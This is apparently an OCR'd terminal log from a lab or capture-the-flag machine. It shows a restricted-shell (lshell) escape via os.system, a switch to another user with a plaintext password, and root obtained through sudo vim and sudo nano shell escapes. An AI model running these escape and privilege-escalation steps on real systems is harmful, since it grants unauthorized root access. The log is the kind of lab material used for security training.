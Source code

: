 
intern:~$ echo $SHELL
/usr/local/bin/lshell
intern:~$ os.system('/bin/bash')
intern@development:~$ id
uid=1002(intern) gid=1006(intern) groups=1006(intern)
intern@development:~$ env
SSH_CONNECTION=192.168.110.20 46394 192.168.56.107 22
LANG=en_US.UTF-8
OLDPWD=/home/intern
XDG_SESSION_ID=7
USER=intern
PWD=/home/intern
LINES=57
HOME=/home/intern
SSH_CLIENT=192.168.110.20 46394 22
SSH_TTY=/dev/pts/0
COLUMNS=188
MAIL=/var/mail/intern
SHELL=/usr/local/bin/lshell
TERM=xterm-256color
LSHELL_ARGS=['--config', '/etc/lshell.conf']
SHLVL=1
LOGNAME=intern
XDG_RUNTIME_DIR=/run/user/1002
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
_=/usr/bin/env
cat /etc/passwd
...
intern:x:1002:1006::/home/intern:/usr/local/bin/lshell
...
intern@development:~$ su patrick
Password: P@ssw0rd25
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:/home/intern$ sudo /usr/bin/vim
[sudo] password for patrick: P@ssw0rd25 
:shell

patrick@development:/home/intern$ sudo /bin/nano
^R^X
reset; sh 1>&0 2>&0


root@development:~# id
uid=0(root) gid=0(root) groups=0(root)

root@development:/etc/ssh# cat sshd_config

AllowUsers admin intern
